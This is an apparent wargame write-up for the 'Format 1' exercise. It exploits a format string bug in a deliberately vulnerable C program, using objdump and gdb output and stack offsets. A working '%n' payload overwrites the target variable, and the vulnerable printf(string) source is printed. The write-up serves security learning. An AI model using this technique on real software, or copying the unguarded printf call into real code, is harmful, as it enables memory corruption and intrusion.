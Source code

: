 # Format 1

## Problem

```gdb
objdump -t format1 | grep target
>>>08049638 g     O .bss   00000004              target
```

As suggested by the hint, we find out what is the address of the target variable.
We also find out the dump of the vuln code. From the source code, we can also tell
that the program is expecting an argument that we can potentially try to do string
format attack on.

```gdb
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x18
0x080483fa <vuln+6>:    mov    eax,DWORD PTR [ebp+0x8]
0x080483fd <vuln+9>:    mov    DWORD PTR [esp],eax
0x08048400 <vuln+12>:   call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:   mov    eax,ds:0x8049638
0x0804840a <vuln+22>:   test   eax,eax
0x0804840c <vuln+24>:   je     0x804841a <vuln+38>
0x0804840e <vuln+26>:   mov    DWORD PTR [esp],0x8048500
0x08048415 <vuln+33>:   call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:   leave
0x0804841b <vuln+39>:   ret
End of assembler dump.
```

## Idea and Attack process

We know the address we would like to modify. As long as we set the target variable
to some value other than 0, we will be able to print the message. We start by finding
the target address in the stack.

```
b*0x08048400
>>>Breakpoint 1 at 0x08048400
s
>>>Single stepping until exit from function vuln,
>>>which has no line number information.
>>>__printf (format=0xbffffe8a "aaaa") at printf.c:29
>>>29      printf.c: No such file or directory.
>>>        in printf.c

x/12wx $esp
>>>0xbffffc68:     0x00000001      0xb7eddf90      0xb7eddf99      0xb7fd7ff4
>>>0xbffffc78:     0xbffffc98      0x08048405      0x00000000      0x0804960c
>>>0xbffffc88:     0xbffffcb8      0x08048469      0xb7fd8304      0xb7fd7ff4
```

Thus, we can deduce that the location of the pointer is at `0xbffffc84`. The pointer
starts at `0xbffffe8a`, that is 518bytes away. This computes to 129 pointer shifts
before writing to our target location.

```gdb
./format1 $(python -c "print '\x38\x96\x04\x08' + '%x.'*129 + '%n'")
8804960c.bffffb48.8048469.b7fd8304.b7fd7ff4.bffffb48.8048435.bffffd18.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbc8.b7eadc76.2.bffffbf4.bffffc00.b7fe1848.bffffbb0.ffffffff.b7ffeff4.804824d.1.bffffbb0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbc8.52a9541a.78e7820a.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbf4.8048450.8048440.b7ff1040.bffffbec.b7fff8f8.2.bffffd0e.bffffd18.0.bffffea2.bffffead.bffffebd.bffffedf.bffffef2.bffffefc.bfffff10.bfffff52.bfffff69.bfffff7a.bfffff82.bfffff8d.bfffff9a.bfffffd0.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.78bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffceb.1f.bffffff2.f.bffffcfb.0.0.0.0.d2000000.fa1036db.f1b2d6af.5dbc36f0.696824ef.363836.0.0.0.2f2e0000.6d726f66.317461.you have modified the target :)
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
